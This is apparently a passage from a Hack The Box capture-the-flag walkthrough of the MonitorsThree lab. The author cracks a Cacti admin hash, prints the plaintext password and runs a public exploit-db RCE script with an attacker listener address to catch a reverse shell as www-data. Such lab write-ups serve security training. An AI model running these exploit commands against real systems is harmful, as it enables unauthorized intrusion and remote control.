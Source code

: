 Dropping these into crackstation, we find we can crack the admin hash: `greencacti2001`

![htb_monitors3_cracked.png](../assets/monitorsthree_assets/htb_monitors3_cracked.png)

Now that we have this credential we can revisit some of the authenticated RCE exploits discovered earlier in enumeration.

Let's use: https://www.exploit-db.com/exploits/52225

```
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ python cacti_rce.py --url http://cacti.monitorsthree.htb/cacti --user 'admin' --password 'greencacti2001' --lhost 10.10.14.234 --lport 9001
```

We can launch the exploit and catch as shell as www-data:

![htb_monitors3_shell.png](../assets/monitorsthree_assets/htb_monitors3_shell.png)
